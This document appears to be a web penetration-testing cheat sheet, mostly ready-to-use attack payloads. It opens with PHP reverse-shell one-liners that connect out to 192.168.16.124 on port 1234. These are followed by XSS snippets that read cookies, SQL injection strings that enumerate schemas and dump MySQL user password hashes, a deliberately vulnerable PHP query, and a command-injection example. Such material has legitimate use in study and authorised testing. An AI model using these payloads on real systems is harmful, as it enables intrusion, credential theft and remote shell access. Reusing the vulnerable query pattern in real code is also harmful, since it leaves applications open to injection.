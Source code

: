 # WEB

PHP
---

Reverse shell one-liners:

<?php $s=fsockopen(\"192.168.16.124\",1234);exec("sh<%263>%263 2>%263");?>

<?php $s=fsockopen("192.168.16.124",1234);exec("sh<&3>&3 2>&3") ;?>


XSS
---

```javascript
<script>alert("XSS")</script>
<script>alert(document.cookie)</script>
```

SQL INJECTION
-------------

Vulenrable code example:

```
$id=$_GET['id'];

$getid="SELECT first_name, last_name FROM users WHERE user_id = '$id'";
$result=mysql_query($getid) or die('
<pre>' . mysql_error() . '</pre>
' );
```

MySQL delimiter: `#`
SQL delimiter: `--

* "Always true" scenario:

```
%' or '0'='0
' or 1=1--
```

% will probably not be equal to anything so will be false
'0'='0' - always equal to true

* Figure out how many columns are there:

`‘ ORDER BY 1#`
`‘ ORDER BY 2#`

etc.

* Find out the database version:

`‘ UNION ALL SELECT 1,@@VERSION#`
`%' or 0=0 union select null, version() #`

* Find out the database the user is running as and the name of the database:

`‘ UNION ALL SELECT user(),database()#`
`%' or 0=0 union select null, user() #`

* Dump MySQL hash:

`‘ UNION ALL SELECT user,password FROM mysql.user#`

* Find out the table name:

`‘ UNION ALL SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema LIKE ‘%[database name]%’ #`

* Find out columns in a table:

`‘ UNION ALL SELECT table_schema, column_name FROM information_schema.columns WHERE table_schema LIKE ‘%[database name]%’ #`

* Dump username and password from `example.users` table:

`‘ UNION ALL SELECT user, password FROM example.users #`

* Display all tables in information_schema database:

`%' and 1=0 union select null, table_name from information_schema.tables #`


COMMAND INJECTION
-----------------

* Try to use pipe, ampersands, etc. Example: `1 | uname -a & users & id`